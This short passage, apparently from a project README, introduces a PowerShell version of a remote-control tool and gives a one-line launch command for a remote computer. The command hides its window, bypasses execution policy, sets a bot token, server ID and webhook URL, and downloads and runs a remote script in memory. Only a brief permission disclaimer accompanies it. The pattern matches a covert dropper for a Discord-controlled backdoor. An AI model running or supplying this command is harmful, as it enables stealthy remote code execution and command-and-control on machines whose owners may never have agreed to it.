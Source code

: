 attempt to rewrite in powershell to allow running from memory for more efficiency and auto update if using the below command on the remote computer (that you own or have permission to use this on!)

powershell -W Hidden -EP Bypass -C "$TOKEN = '<YOUR_BOT_TOKEN>'; $serverID = '<YOUR_SERVER_ID>'; $whURL = '<YOUR_WEBHOOK_URL>'; IEX (IWR 'https://example.com/harmony.ps1' -UseBasicParsing); exit"
